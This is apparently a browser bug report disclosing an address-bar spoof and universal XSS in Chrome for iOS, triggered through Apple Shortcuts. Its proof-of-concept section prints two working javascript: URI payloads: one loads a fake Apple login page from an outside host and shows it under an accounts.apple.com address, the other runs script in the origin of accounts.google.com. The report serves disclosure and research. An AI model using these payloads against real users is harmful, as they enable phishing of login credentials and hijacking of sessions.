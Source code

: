 # Title: Address Bar Spoof and UXSS Using Shortcuts Chrome iOS

## Description: 
Steps to reproduce the problem
Address Bar Spoof

Open https://www.icloud.com/shortcuts/c56f077c3b9d4d168d93aaf0d0defa65 and Add to Shortcuts
Run the Shortcut
Address bar spoofed to accounts.apple.com
UXSS

Open https://www.icloud.com/shortcuts/828872b70e3246d68b818c5a9234802b and Add to Shortcuts
Run the Shortcuts
Type your age in the address bar when asked
XSS on accounts.google.com
Video POCs attached

Problem Description
Chrome has a feature to open URLs using shortcuts but not only URLs we can also use Text to be passed to Chrome this won't be checked by the internal URL parser and anything can be sent, also Chrome doesn't check the protocol of the URL which we can insert javascript: URI and when opened inside the browser Chrome will execute the JS URI and shows end of the URL meaning javascript:document.write('spoof')//........google.com/login will be shown as ...google.com/login and with the page content being spoof.

Also this can lead to UXSS since chrome allows top navigation to javascript: URI and since our current url is javascript: we just need the user to tap the address bar and change something from it and in background we will redirect to google.com when the user press enter our code will be executed in context of google.com

Address bar POC code: Text -> Chrome -> Open Text
javascript:fetch('https://pwr.wtf/fakeapple.php').then(r=>{r.text().then(w=>{document.write(w)})});alert(origin)
//accounts.apple.com/login?oauth=1&a///
UXSS POC Code Text -> Chrome -> Open Text

javascript:"Age_(_______)";document.write(`<meta name="viewport" content="width=device-width, user-scalable=no"><center><h2 style=font-size:50px>origin: ${origin}<br><br><br>Type your age in the address bar to enter`);setTimeout(()=>{if(location.hash!='#xss'){document.write('<script>location="https://xss:slaw@accounts.google.com/#xss";</script>')} else {alert('UXSS POC: '+origin);}},7000);//Type_Birthday_Here_My_Age_is_(_______)
Summary
Address Bar Spoof and UXSS Using Shortcuts


## Affected Browser(s): Chrome iOS

## Severity: Low

## Spoof Type: End-of-URL-Shown

## POC Photo/Video: bug-071.mp4/.mov/.png

## Discovery Date: 2024-12-09

